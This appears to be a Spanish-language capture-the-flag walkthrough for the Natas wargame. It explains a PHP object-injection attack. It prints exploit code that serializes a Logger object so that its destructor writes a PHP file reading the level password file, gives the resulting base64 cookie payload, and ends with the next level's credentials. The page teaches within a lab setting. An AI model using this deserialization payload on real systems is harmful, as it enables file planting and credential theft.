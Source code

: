 El código PHP realiza las siguientes acciones:

1. Define una clase `Logger` con propiedades privadas `$logFile`, `$initMsg`, y `$exitMsg`.
2. En el constructor (`__construct`), inicializa estas propiedades.
   * `$initMsg` se establece con un mensaje de inicio de sesión.
   * `$exitMsg` se establece con un fragmento de código PHP que incluye un archivo específico (presumiblemente un archivo de contraseña).
   * `$logFile` se establece con la ruta a un archivo PHP de salida.
3. Crea una instancia de `Logger` y la serializa.
4. Codifica la instancia serializada en Base64 y la imprime.

Luego, envía esta cadena como “drawing” en la Cookie. Será deserializada por el servidor y considerada como un Logger. En la función de destrucción (ejecutada automáticamente), escribirá un archivo PHP para mostrar el archivo de contraseña.&#x20;

```php
<?php
class Logger {
    private $logFile;
    private $initMsg;
    private $exitMsg;

    function __construct() {
        
        $this->initMsg = "#–session started–#\n";
        $this->exitMsg = "<?php include_once('/etc/natas_webpass/natas27');?>";
        $this->logFile = "img/output.php";
    }
}

$output[] = new Logger();
echo base64_encode(serialize($output));
?>
```

Esta es la cadena generada: `YToxOntpOjA7Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxNDoiaW1nL291dHB1dC5waHAiO3M6MTU6IgBMb2dnZXIAaW5pdE1zZyI7czoyNDoiI+KAk3Nlc3Npb24gc3RhcnRlZOKAkyMKIjtzOjE1OiIATG9nZ2VyAGV4aXRNc2ciO3M6NTE6Ijw/cGhwIGluY2x1ZGVfb25jZSgnL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTs/PiI7fX0=`

<figure><img src="../../../.gitbook/assets/image (258).png" alt=""><figcaption></figcaption></figure>

### NIVEL 27

Ingresamos las credenciales para el nivel 27.

* **Usuario:** `natas27`
* **Contraseña:** `u3RRffXjysjgwFU6b9xa23i6prmUsYne`
